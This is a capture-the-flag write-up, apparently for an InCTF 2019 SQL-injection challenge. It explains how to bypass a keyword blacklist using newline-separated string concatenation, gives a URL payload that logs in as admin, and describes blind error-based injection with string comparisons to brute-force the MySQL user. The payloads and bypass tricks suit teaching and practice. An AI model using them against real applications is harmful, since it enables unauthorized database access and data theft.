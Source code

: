 This will sleep for number of entries in the database (in this case 12 sec).  
So that's how you can dump the database, but here you can't use `sleep` because it is also blacklisted. So the main idea is here you can execute SQL commands after putting `-`.

For getting `admin` you don't have to do anything much, just needed to concatenate strings.
### Trick-2
```sql
select * from login where username='t' 'a' 'r' 'u' 'n' 'k' 'a' 'n' 't';
```
![a](blog4.1.png)

So the final payload I used to get admin was:
```
/?name=a%27%0a%27d%27%0a%27m%27%0a%27i'%0a'n
```

Now you need to find another SQLi to get `mysql_user` How?  
By taking the advantage of this:
```php
}
  else{
      echo "<h4>You are not admin " . "</h4>";
  }
}
else{
  echo "<h4>Having a query problem" . "</h4><br>";
}
```
We will make MySQL to return some time `query problem` and some time `not admin`, and doing that we can get `mysql_user`.  

### Trick-3
```sql
select * from login where username=''-(~(select 1=1)+1);  
# This will return empty string, and hence it will return `You are not admin`
select * from login where username=''-(~(select 1=2)+1);  
# This will return error
```
![a](blog4.2.png)

Now you know how to bypass that only you need to find alternatives of blacklisted keywords. So instead of `=` you could have used `<`, for space `%0a`.  

### Trick-4
```sql
select 'root'>'a';  # Will return True
select 'root'>'s';  # Will return False
```
![a](blog4.3.png)

Like that you can bruteforce and get whole string.

The **full script** for finding the username can be found [here](https://github.com/tarunkant/CTF/blob/master/InCTF2019/GoSQLv2/InCTF19-GoSQLv2.py).  
